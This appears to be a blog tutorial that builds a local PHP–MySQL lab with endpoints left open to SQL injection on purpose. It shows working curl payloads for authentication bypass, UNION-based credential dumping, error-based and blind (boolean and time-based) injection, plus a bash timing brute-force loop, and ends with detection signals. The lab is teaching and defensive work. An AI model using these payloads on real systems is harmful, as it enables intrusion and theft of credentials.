


---
myst:
  html_meta:
    "description lang=en": "Learn SQL injection from the ground up with a hands-on Docker lab. Build a vulnerable PHP-MySQL application and execute real attacks including authentication bypass, UNION-based data extraction, error-based leaks, and time-based blind enumeration. Master the fundamentals before moving to production detection."
    "keywords": "SQL injection, PHP MySQL vulnerability, Docker security lab, authentication bypass, UNION SELECT attack, error-based SQL injection, time-based blind injection, penetration testing, cybersecurity training, database security, curl exploitation, vulnerable web application, MySQL container, PHP endpoints, SQL syntax manipulation"
    "property=og:locale": "en_US"
    "property=og:type" : "article"
    "property=og:title" : "Time, Errors, and Unions: Practical SQL Injection Exploitation and Detection"
    "property=og:image": "https://raw.githubusercontent.com/colossus06/PodLock-Blog/main/og/time.png"
---


(time)=
# Time, Errors, and Unions: Practical SQL Injection Exploitation and Detection

In this article, we will build a controlled PHP–MySQL lab to execute and study SQL injection techniques including authentication bypass, UNION-based extraction, error-based leaks, boolean-based inference, and time-based blind enumeration. We will test each method with `curl` to understand the mechanics and artifacts it leaves at application, network, and database layers.

SQL-based databases remain the backbone of most modern systems. As of August 2025, Oracle, MySQL, SQL Server, and PostgreSQL hold the top four positions in DB-Engines’ global ranking. Their dominance in enterprise and internet-facing applications makes them a consistent target for SQL injection.

SQL injection is an input handling flaw where user-controlled data is embedded directly into a database query without proper isolation or validation. When we construct SQL statements by concatenating raw input with query logic, the database loses the ability to distinguish between trusted code and untrusted data. This allows attackers to inject their own SQL syntax, altering the intended behavior of the query.

Consider a basic PHP login form that takes a username and password from the URL and constructs a query:

```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

The developer expects `$username` to be something like `john_doe`. If instead we send:

```
username=' OR 1=1 --
```

the resulting query becomes:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '...'
```

The `OR 1=1` condition always evaluates to true, returning all rows. The `--` operator comments out the rest of the statement, removing the password check entirely. We have authenticated without credentials because the query was built from raw, unvalidated input.

This is the simplest form of SQL injection.

Once we can alter the query structure, we can go further. Depending on database type and privileges, we can enumerate tables, extract sensitive data, read configuration, or even write files to disk. The principle remains the same: once input crosses the query boundary without proper sanitization, the attacker controls what the database executes.

To explore this, we will build a minimal PHP application and a MySQL backend.



## Building the MySQL backend

In this step, our goal is to observe injection behavior at the database level and understand the techniques an attacker uses.

We start by running a MySQL container with sample data:

```bash
docker run --name sqli-mysql \
  -e MYSQL_ROOT_PASSWORD=password123 \
  -e MYSQL_DATABASE=testdb \
  -e MYSQL_USER=webapp \
  -e MYSQL_PASSWORD=webapp123 \
  -p 3306:3306 \
  -d mysql:8.0
```

After MySQL starts, we connect and create a schema with users, products, and orders. This will give us realistic targets for injection:

```bash
docker exec -it sqli-mysql mysql -u root -ppassword123
```

Inside MySQL:

```sql
CREATE DATABASE IF NOT EXISTS vulnerable_app;
USE vulnerable_app;

CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(100) NOT NULL,
    email VARCHAR(100),
    role ENUM('admin', 'user', 'moderator') DEFAULT 'user',
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

CREATE TABLE products (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    price DECIMAL(10,2),
    category VARCHAR(50),
    description TEXT,
    stock INT DEFAULT 0
);

CREATE TABLE orders (
    id INT AUTO_INCREMENT PRIMARY KEY,
    user_id INT,
    product_id INT,
    quantity INT,
    order_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    FOREIGN KEY (user_id) REFERENCES users(id),
    FOREIGN KEY (product_id) REFERENCES products(id)
);

INSERT INTO users (username, password, email, role) VALUES 
('admin', 'admin123', 'admin@test.com', 'admin'),
('john_doe', 'password123', 'john@test.com', 'user'),
('jane_smith', 'secret456', 'jane@test.com', 'user'),
('bob_wilson', 'qwerty789', 'bob@test.com', 'moderator'),
('alice_brown', 'letmein', 'alice@test.com', 'user'),
('test_user', 'test123', 'test@test.com', 'user');

INSERT INTO products (name, price, category, description, stock) VALUES 
('Laptop Pro', 1299.99, 'Electronics', 'High-performance laptop', 25),
('Wireless Mouse', 29.99, 'Electronics', 'Ergonomic wireless mouse', 100),
('Mechanical Keyboard', 89.99, 'Electronics', 'RGB mechanical keyboard', 50),
('4K Monitor', 399.99, 'Electronics', '27-inch 4K display', 15),
('Office Chair', 199.99, 'Furniture', 'Ergonomic office chair', 30);

INSERT INTO orders (user_id, product_id, quantity) VALUES 
(2, 1, 1), (2, 2, 2), (3, 3, 1), (4, 4, 1), (5, 5, 1);
```

Before simulating attacks, we should understand what exists in the database.

## Exploring the Database Structure

An attacker who has gained injection capability often begins with enumeration, identifying the database type, its available schemas, and the tables within them.

Since we have direct access to the container at this stage, we can run these queries explicitly to document the environment we’ll be targeting:

```sql
docker exec -it sqli-mysql mysql -u root -ppassword123

-- List all databases
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| testdb             |
| vulnerable_app     |
+--------------------+
6 rows in set (0.01 sec)

-- Switch to our vulnerable application schema
USE vulnerable_app;

Database changed
```

Now list all tables in this schema

```sql
SHOW TABLES;

+--------------------------+
| Tables_in_vulnerable_app |
+--------------------------+
| orders                   |
| products                 |
| users                    |
+--------------------------+
3 rows in set (0.00 sec)

-- Inspect each table's structure
DESCRIBE users;
+------------+----------------------------------+------+-----+-------------------+-------------------+
| Field      | Type                             | Null | Key | Default           | Extra             |
+------------+----------------------------------+------+-----+-------------------+-------------------+
| id         | int                              | NO   | PRI | NULL              | auto_increment    |
| username   | varchar(50)                      | NO   |     | NULL              |                   |
| password   | varchar(100)                     | NO   |     | NULL              |                   |
| email      | varchar(100)                     | YES  |     | NULL              |                   |
| role       | enum('admin','user','moderator') | YES  |     | user              |                   |
| created_at | timestamp                        | YES  |     | CURRENT_TIMESTAMP | DEFAULT_GENERATED |
+------------+----------------------------------+------+-----+-------------------+-------------------+
6 rows in set (0.00 sec)
```

The `users` table shows authentication credentials and roles.

```sql
mysql> DESCRIBE products;
+-------------+---------------+------+-----+---------+----------------+
| Field       | Type          | Null | Key | Default | Extra          |
+-------------+---------------+------+-----+---------+----------------+
| id          | int           | NO   | PRI | NULL    | auto_increment |
| name        | varchar(100)  | NO   |     | NULL    |                |
| price       | decimal(10,2) | YES  |     | NULL    |                |
| category    | varchar(50)   | YES  |     | NULL    |                |
| description | text          | YES  |     | NULL    |                |
| stock       | int           | YES  |     | 0       |                |
+-------------+---------------+------+-----+---------+----------------+
6 rows in set (0.00 sec)
```

The `products` table holds catalog data, which is a natural candidate for a search feature vulnerable to SQL injection.

The `orders` table links users to purchased products, representing transactional data an attacker might want to exfiltrate.

And to see the actual data:

```sql
mysql> SELECT * FROM users;
+----+-------------+-------------+----------------+-----------+---------------------+
| id | username    | password    | email          | role      | created_at          |
+----+-------------+-------------+----------------+-----------+---------------------+
|  1 | admin       | admin123    | admin@test.com | admin     | 2025-08-08 03:12:35 |
|  2 | john_doe    | password123 | john@test.com  | user      | 2025-08-08 03:12:35 |
|  3 | jane_smith  | secret456   | jane@test.com  | user      | 2025-08-08 03:12:35 |
|  4 | bob_wilson  | qwerty789   | bob@test.com   | moderator | 2025-08-08 03:12:35 |
|  5 | alice_brown | letmein     | alice@test.com | user      | 2025-08-08 03:12:35 |
|  6 | test_user   | test123     | test@test.com  | user      | 2025-08-08 03:12:35 |
|  7 | admin       | admin123    | admin@test.com | admin     | 2025-08-08 03:49:07 |
|  8 | john_doe    | password123 | john@test.com  | user      | 2025-08-08 03:49:07 |
|  9 | jane_smith  | secret456   | jane@test.com  | user      | 2025-08-08 03:49:07 |
| 10 | bob_wilson  | qwerty789   | bob@test.com   | moderator | 2025-08-08 03:49:07 |
| 11 | alice_brown | letmein     | alice@test.com | user      | 2025-08-08 03:49:07 |
| 12 | test_user   | test123     | test@test.com  | user      | 2025-08-08 03:49:07 |
+----+-------------+-------------+----------------+-----------+---------------------+
12 rows in set (0.00 sec)

mysql> SELECT * FROM products;
+----+---------------------+---------+-------------+--------------------------+-------+
| id | name                | price   | category    | description              | stock |
+----+---------------------+---------+-------------+--------------------------+-------+
|  1 | Laptop Pro          | 1299.99 | Electronics | High-performance laptop  |    25 |
|  2 | Wireless Mouse      |   29.99 | Electronics | Ergonomic wireless mouse |   100 |
|  3 | Mechanical Keyboard |   89.99 | Electronics | RGB mechanical keyboard  |    50 |
|  4 | 4K Monitor          |  399.99 | Electronics | 27-inch 4K display       |    15 |
|  5 | Office Chair        |  199.99 | Furniture   | Ergonomic office chair   |    30 |
|  6 | Laptop Pro          | 1299.99 | Electronics | High-performance laptop  |    25 |
|  7 | Wireless Mouse      |   29.99 | Electronics | Ergonomic wireless mouse |   100 |
|  8 | Mechanical Keyboard |   89.99 | Electronics | RGB mechanical keyboard  |    50 |
|  9 | 4K Monitor          |  399.99 | Electronics | 27-inch 4K display       |    15 |
| 10 | Office Chair        |  199.99 | Furniture   | Ergonomic office chair   |    30 |
+----+---------------------+---------+-------------+--------------------------+-------+
10 rows in set (0.00 sec)

mysql> SELECT * FROM orders;
+----+---------+------------+----------+---------------------+
| id | user_id | product_id | quantity | order_date          |
+----+---------+------------+----------+---------------------+
|  1 |       2 |          1 |        1 | 2025-08-08 03:12:36 |
|  2 |       2 |          2 |        2 | 2025-08-08 03:12:36 |
|  3 |       3 |          3 |        1 | 2025-08-08 03:12:36 |
|  4 |       4 |          4 |        1 | 2025-08-08 03:12:36 |
|  5 |       5 |          5 |        1 | 2025-08-08 03:12:36 |
|  6 |       2 |          1 |        1 | 2025-08-08 03:49:07 |
|  7 |       2 |          2 |        2 | 2025-08-08 03:49:07 |
|  8 |       3 |          3 |        1 | 2025-08-08 03:49:07 |
|  9 |       4 |          4 |        1 | 2025-08-08 03:49:07 |
| 10 |       5 |          5 |        1 | 2025-08-08 03:49:07 |
+----+---------+------------+----------+---------------------+
10 rows in set (0.02 sec)
```

Documenting the database structure gives us two immediate benefits.

We now know exactly which tables and columns to target when simulating union-based queries or crafting data extraction payloads.

It also means that when we review logs later, we can directly map attacker requests to the exact schema elements they are trying to reach.

Awesome!

We have a running MySQL container with tables and data.

To make the injection techniques tangible, we need a vulnerable application layer that talks to this database. The simplest approach is to run a lightweight PHP service that accepts parameters from the URL and uses them directly in SQL queries without any filtering.

## Building the PHP application

We place the PHP files in a `public` directory and keep a separate `db.php` that opens a connection to our MySQL instance using the `webapp` user. The connection points to `127.0.0.1` on port `3306`, with credentials matching the container’s environment variables. We configure it to display all errors so that failed queries, syntax issues, and database messages are visible during testing.

Each PHP endpoint represents a specific type of injection scenario. `login.php` checks credentials with raw string interpolation in the `WHERE` clause, making it ideal for authentication bypass. `search.php` queries six fixed columns from the `products` table, which makes it straightforward to test `UNION SELECT` injections. `page.php` executes a lookup by `id` and shows all MySQL errors directly in the browser, enabling error-based extraction techniques. `item.php` returns only a status code and minimal text, which is perfect for boolean- and time-based blind injection tests.

The directory structure is minimal:

```bash
sqli-lab/
  public/
    db.php
    index.php
    login.php
    search.php
    page.php
    item.php
```

From the `public` directory, you can create all of them in one line:

```bash
touch db.php index.php login.php search.php page.php item.php
```

We start the PHP built-in server from the project root and map it to port `8080`:

```bash
php -S 127.0.0.1:8080 -t public
[Fri Aug  8 06:24:18 2025] PHP 8.3.6 Development Server (http://127.0.0.1:8080) started
```

At this point the environment is ready.

The MySQL container holds the dataset, and the PHP endpoints provide direct, intentionally unsafe query surfaces.

Each endpoint is reachable through a predictable URL, and each one represents a different SQL injection scenario we can trigger and study.

From here, we shift to the attacker’s perspective.

## Reconnaissance and Selecting Tools for the Job

When approaching SQL injection from an attacker’s perspective, the first step is reconnaissance. We identify the database type, understand how queries are built, and find which parameters flow into them.

We can use `curl` because it shows us exactly what goes in and what comes out from the terminal, Burp Suite to intercept and modify requests on the fly, and browser-based interceptors for quick parameter testing. `sqlmap` can automate database fingerprinting and payload delivery.

Let's start manually.

We begin by probing a known vulnerable endpoint:

```bash
curl "http://127.0.0.1:8080/page.php?id='"
```

The response echoes the raw query:

```
SELECT * FROM products WHERE id = '''
```

It also returns a MySQL error:

```bash
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version
```

This confirms three things:

* Input is unsanitized.
* The query is dynamically constructed.
* The backend is MySQL.

The wording of the error, especially "check the manual that corresponds to your MySQL server version", confirms the backend is MySQL.

From here, we can start crafting payloads with full awareness of how they will be interpreted.

### Extracting MySQL Version with Error-Based Injection

Next, we test whether the database leaks internal data through error output. MySQL’s `extractvalue()` function can be abused to include arbitrary strings in an error message. We embed the result of `version()` into that output.

```bash
curl "http://127.0.0.1:8080/page.php?id=1%27%20AND%20extractvalue(1,concat(0x7e,version(),0x7e))%20--%20"
```

If error-based injection is possible, we see something like:

```
XPATH syntax error: '~8.0.43~'
```

This confirms the database is MySQL 8.0.43. Version-specific behaviors—like function support and escaping rules—now become part of our payload design.

### Identifying the Database Without Errors

If the application hides SQL errors, we can still confirm details using boolean logic. MySQL will evaluate our condition even when it does not return the result. We can test one character of the version string at a time and infer the value from the HTTP response.

To avoid shell parsing issues, we URL-encode special characters:

```bash
curl -i "http://127.0.0.1:8080/item.php?id=1%27%20AND%20substring(version(),1,1)=%278%27%20--%20"

HTTP/1.1 200 OK
Host: 127.0.0.1:8080
Date: Sat, 09 Aug 2025 03:50:52 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Content-type: text/plain;charset=UTF-8

OK
```

The server responds with HTTP 200 as the condition is true.

We now know which syntax and functions to use in the attack phase.

## Attacking the Mysql/Php Stack

We begin by establishing baseline behavior for the target endpoint.

The `login.php` page accepts `user` and `pass` parameters and checks credentials against the database.

We first send a valid request to confirm the query executes as expected:

```bash
curl "http://127.0.0.1:8080/login.php?user=admin&pass=admin123"

<pre>SELECT * FROM users WHERE username = 'admin' AND password = 'admin123'</pre><p>Login OK</p><table border=1 cellpadding=6 cellspacing=0><tr><th>id</th><th>username</th><th>password</th><th>email</th><th>role</th><th>created_at</th></tr><tr><td>1</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:12:35</td></tr><tr><td>7</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:49:07</td></tr></table>
```

The response shows the executed SQL and a matching row from the `users` table followed by a “Login OK” message and a table row for the admin account.

This tells us two things.

First, both parameters are passed directly into the SQL query without sanitization.

Second, the endpoint is functional and will display matching rows when credentials are correct.

That makes each parameter a potential injection point.

We want to test whether we can change the logic of the `WHERE` clause instead of supplying correct credentials.

This is where our first attack sits in: authentication bypass.

### Authentication Bypass

Our goal is to make the condition always evaluate to `true`, regardless of the password.

To do this, we inject `OR 1=1` into the username parameter.

URL encoding is necessary so special characters are interpreted correctly by the application:

Special characters must be URL-encoded to avoid shell parsing issues:

```bash
curl "http://127.0.0.1:8080/login.php?user=%27%20OR%201=1%20--%20&pass=irrelevant"
```

The resulting query becomes:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = 'irrelevant'

<pre>SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = 'irrelevant'</pre><p>Login OK</p><table border=1 cellpadding=6 cellspacing=0><tr><th>id</th><th>username</th><th>password</th><th>email</th><th>role</th><th>created_at</th></tr><tr><td>1</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:12:35</td></tr><tr><td>2</td><td>john_doe</td><td>password123</td><td>john@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>3</td><td>jane_smith</td><td>secret456</td><td>jane@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>4</td><td>bob_wilson</td><td>qwerty789</td><td>bob@test.com</td><td>moderator</td><td>2025-08-08 03:12:35</td></tr><tr><td>5</td><td>alice_brown</td><td>letmein</td><td>alice@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>6</td><td>test_user</td><td>test123</td><td>test@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>7</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:49:07</td></tr><tr><td>8</td><td>john_doe</td><td>password123</td><td>john@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr><tr><td>9</td><td>jane_smith</td><td>secret456</td><td>jane@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr><tr><td>10</td><td>bob_wilson</td><td>qwerty789</td><td>bob@test.com</td><td>moderator</td><td>2025-08-08 03:49:07</td></tr><tr><td>11</td><td>alice_brown</td><td>letmein</td><td>alice@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr><tr><td>12</td><td>test_user</td><td>test123</td><td>test@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr></table>
```

The output now lists all users in the database, from admin to `test_user`.

The `OR 1=1` condition matches all rows, and the comment sequence removes the password check entirely. The database returns the first matching user, and we are logged in without valid credentials.

Once we can inject, the next question is whether we can retrieve arbitrary data from other tables.

### Union-Based Injection

`UNION SELECT` lets us merge results from a second query into the output of the first, but only if both have the same number of columns.

By matching the column count of the products table query, we can insert users table data into the response:

This involves appending a second `SELECT` statement with the same column count to pull data from another table:

```bash
curl "http://127.0.0.1:8080/search.php?q=test%27%20UNION%20SELECT%20NULL,username,password,email,NULL,NULL%20FROM%20users%20--%20"

<pre>SELECT id, name, price, category, description, stock FROM products WHERE name LIKE '%test' UNION SELECT NULL,username,password,email,NULL,NULL FROM users -- %'</pre><table border=1 cellpadding=6 cellspacing=0><tr><th>id</th><th>name</th><th>price</th><th>category</th><th>description</th><th>stock</th></tr><tr><td></td><td>admin</td><td>admin123</td><td>admin@test.com</td><td></td><td></td></tr><tr><td></td><td>john_doe</td><td>password123</td><td>john@test.com</td><td></td><td></td></tr><tr><td></td><td>jane_smith</td><td>secret456</td><td>jane@test.com</td><td></td><td></td></tr><tr><td></td><td>bob_wilson</td><td>qwerty789</td><td>bob@test.com</td><td></td><td></td></tr><tr><td></td><td>alice_brown</td><td>letmein</td><td>alice@test.com</td><td></td><td></td></tr><tr><td></td><td>test_user</td><td>test123</td><td>test@test.com</td><td></td><td></td></tr></table>
```

The output shows product rows replaced by user credentials and emails.

How does it make sense?

The `search.php` runs a query such as:

```php
SELECT * FROM products WHERE name LIKE '%$q%'
```

Our payload merges `users` table data into the product search results, exposing usernames, passwords, and emails in the same output.

This confirms that the application executes our injected UNION query and combines its results with the original query output.

If the application does not display table data directly, error-based injection can still leak information.

### Error-Based Injection

MySQL functions such as `extractvalue()` throw an error containing the result of a subquery.

By embedding our subquery inside `extractvalue()`, we force MySQL to reveal the current database user in the error message:

```bash
curl "http://127.0.0.1:8080/page.php?id=1%27%20AND%20extractvalue(1,concat(0x7e,(SELECT%20user()),0x7e))%20--%20"

<pre>SELECT * FROM products WHERE id = '1' AND extractvalue(1,concat(0x7e,(SELECT user()),0x7e)) -- '</pre><br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: XPATH syntax error: '~webapp@299.158.1.25~' in /sql/public/page.php:7
```

This confirms the database user is reported as `webapp@299.158.1.25` and that our injected subquery actually ran before the error was thrown.

That IP clearly isn’t real, I swapped it out so we’re not leaking the actual one.

So far, we’ve had it easy because the application has been generous with error messages.

But what happens when those errors are hidden?

We can still find injection points by sending carefully chosen conditions and watching how the responses change.

### Boolean-Based Blind Injection

Boolean-based blind injection works by asking the database a yes-or-no question and watching if the application behaves differently depending on the answer.

In the first request, we append `AND 1=1` to the query.

```bash
curl "http://127.0.0.1:8080/item.php?id=1%27%20AND%201=1%20--%20"

OK
```

Since `1=1` is always true, the database still finds the row with `id=1`, and the application replies with “OK”.

In the second request, we use `AND 1=2`.

```bash
curl "http://127.0.0.1:8080/item.php?id=1%27%20AND%201=2%20--%20"

Not found
```

This is always false, so the query returns no rows, and the application responds with “Not found”.

That change in output tells us the input is affecting the query logic, even though we’re not seeing the query itself or an error message.

Once we know we can influence the logic, we can replace `1=1` with conditions that check for individual characters of hidden data, extracting it step by step.

When both output and errors remain unchanged, timing becomes our feedback channel.

### Time-Based Blind Injection

Time-based blind injection works by making the database pause when a certain condition is true, then measuring how long it takes for the page to respond.

We inject a condition that calls `SLEEP()` if true, and measure the response time:

```bash
curl -w "time_total: %{time_total}\n" "http://127.0.0.1:8080/item.php?id=1%27%20AND%20IF(1=1,SLEEP(5),0)%20--%20"
Not found
time_total: 4.632015
```

Since `1=1` is always true, the database runs `SLEEP(5)` before returning the result.

The curl output shows `time_total: 4.63,` which is close to the expected five seconds, meaning our injected code actually ran on the database.

If we replace `1=1` with a test, like checking if the first letter of the database user is a, we can tell if it’s true by seeing the delay.

```bash
curl -w "time_total: %{time_total}\n" \
"http://127.0.0.1:8080/item.php?id=1%27%20AND%20IF(SUBSTRING(USER(),1,1)=%27a%27,SLEEP(5),0)%20--%20"

Not found
time_total: 0.005873
```

If the first character of the database user is a, the server will pause for about five seconds before responding.

The response is instant `0.005873`. If anything else response will be instant.

Let's brute-force the first character of the database user by measuring response times.

```bash
for c in {a..z} {0..9} _ @ .; do
  t=$(curl -s -o /dev/null -w "%{time_total}" \
  "http://127.0.0.1:8080/item.php?id=1%27%20AND%20IF(SUBSTRING(USER(),1,1)=%27$c%27,SLEEP(5),0)%20--%20")
  
  if (( $(echo "$t > 4.5" | bc -l) )); then
    echo "First character is: $c"
    break
  fi
done
```

It tries each candidate character and stops when it finds the one that triggers a \~5-second delay.

The `{a..z} {0..9} _ @ .` set covers lowercase letters, digits, and common symbols in usernames, but you can extend it if needed.



```bash
First character is: w
```

The application connects to MySQL as `webapp@…`, so the first letter of the account name is indeed `w`.

```sql
mysql> SHOW GRANTS FOR 'webapp'@'%';
+------------------------------------------------------------+
| Grants for webapp@%                                        |
+------------------------------------------------------------+
| GRANT USAGE ON *.* TO `webapp`@`%`                         |
| GRANT ALL PRIVILEGES ON `testdb`.* TO `webapp`@`%`         |
| GRANT ALL PRIVILEGES ON `vulnerable_app`.* TO `webapp`@`%` |
+------------------------------------------------------------+
3 rows in set (0.00 sec)
```

Perfect!

The only caveat is that in a noisy network or under variable server load, a slow response might be a false positive. That’s why in production-grade exploitation we repeat the same test multiple times to confirm the delay is consistent before locking in a character.

## Detecting SQL Injection

When we move from exploitation to detection, our focus shifts from crafting payloads to identifying the traces they leave behind.

We know that an injection leaves patterns, and those patterns exist at multiple layers of the stack.

The most reliable signals are:

* presence of SQL keywords in input (`UNION`, `SELECT`, `OR 1=1`)
* mismatched quotes
* comments (`--`, `#`)
* repeated timeouts or delays
* abnormal query shapes in MySQL logs

At the input layer, we look for tokens that should not appear in user-controlled fields—keywords like `UNION` or `SELECT`, boolean constants like `OR 1=1`, mismatched quotes, or comment sequences such as `--` or `#`.

These indicators on their own are weak, but when they appear in combination or repetition, they start to tell a story.

At the application level, capturing the raw URI and parameters allows us to align a specific request with the SQL it triggered.

At the database level, we monitor for unusual query shapes—queries returning entire tables, repeated syntax errors, or statements that take significantly longer than the baseline.

In MySQL, enabling `general_log` or routing traffic through a proxy like ProxySQL gives us a complete picture of what was executed.

Correlating these layers strengthens detection because the same payload will often appear in multiple places: the web server log, the SQL log, and sometimes the runtime security agent’s output.

In a production pipeline, these signals feed into NIDS like Zeek, Fluent Bit, or Falco, where rules can trigger on both the keyword and the abnormal behavior it produces.

## Key Takeaways

SQL injection happens when user input is treated as code, allowing us to change the logic of the intended query. Different techniques—error-based, boolean-based, time-based, and UNION—require different payloads, but each leaves traces we can detect.

Effective detection relies on multiple layers: inspecting request inputs, capturing application logs, and monitoring database queries.

In this article we used Docker, PHP, and MySQL to keep full control over the environment. This made it possible to generate ground-truth attack traffic for every SQL injection variant and capture it precisely—payloads, responses, query structures, and timing characteristics.

Production environments behave differently.

Workloads run in orchestrated platforms like Kubernetes, where the injection payloads remain the same but the telemetry changes. Traffic may pass through service meshes, containers may be replaced within seconds, and visibility can be segmented across namespaces and pods.

Our next step is to replay the sql injection scenarios in a Kubernetes cluster.

We’ll deploy a Minikube cluster and run OWASP Juice Shop as the target. We’ll instrument the cluster with Falco for syscall visibility and Zeek for Layer-7 network parsing. We’ll collect all signals with Fluent Bit and ship them to Loki, then query and correlate them in Grafana.

**Enjoyed this read?**

If you found this guide helpful,check our blog archives 📚✨

- Follow me on [LinkedIn](https://www.linkedin.com/in/gulcantopcu/) to get updated.
- Read incredible Kubernetes Stories: [Medium](https://medium.com/@gulcantopcu)
- Challenging projects: You're already in the right place.

Until next time!

